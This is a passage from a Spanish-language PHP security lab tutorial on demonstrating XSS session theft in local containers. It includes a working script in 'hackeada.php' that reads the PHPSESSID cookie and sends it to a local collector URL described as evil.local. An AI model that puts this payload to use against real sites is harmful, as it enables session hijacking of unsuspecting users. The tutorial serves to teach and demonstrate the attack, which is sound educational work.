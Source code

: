 ```php
?>
```

Crea también el archivo `logout.php` para el fin de sesión:

```php
<?php
//logout.php
session_start();
session_unset();
session_destroy();
//redirigimos a login.php
header('Location: login.php');
```

Y el archivo `hackeada.php`:

```php+HTML
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8081/robo-de-sesion.php?session_robada=" + c;
</script>
</body>
</html>
```

Si no has creado un volumen persistente, tendrás que parar los contenedores, volver a construir la imagen para introducir los archivos nuevos en el contenedor e iniciarlos de nuevo. Ahora accede a `localhost:8080/login.php` e introduce las credenciales "juan" y contraseña "123456":

![image-20220329155357327](/assets/images/2022-03-15-Validacion/image-20220329155357327.png)

Muy bien, ya hemos iniciado sesión. Ahora accede a `localhost:8080/hackeada.html`:

![image-20220329155746160](/assets/images/2022-03-15-Validacion/image-20220329155746160.png)
